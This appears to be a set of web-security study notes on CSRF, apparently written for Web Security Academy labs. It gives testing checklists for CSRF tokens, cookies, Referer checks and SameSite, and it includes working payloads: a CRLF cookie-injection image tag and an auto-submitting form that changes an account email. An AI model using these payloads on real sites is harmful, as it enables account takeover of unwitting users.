 For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF parameter/token and see if application accepts it.
2. Change request method POST to GET.
3. Exchange csrf token with another user.
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
4. In uplicated token cookie try to assign same random value in token+cookie.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```
### Testing Referer Header for CSRF attack
```
1. Remove Refere Header and see if it works.
2. Check which portion of referrer header is the application validating.
  Ex 1: Referer:  https://attacker.com/?vulnerable-web.net
  Ex 2: Referer:  http://vulnerable-website.com.attacker-website.com/csrf-attack
```
#### Exploit for case 1
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
### SameSite Lax Bypass
Key Note:
```
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```
```
1. Change method POST to GET.
2. Via cookie refresh
```
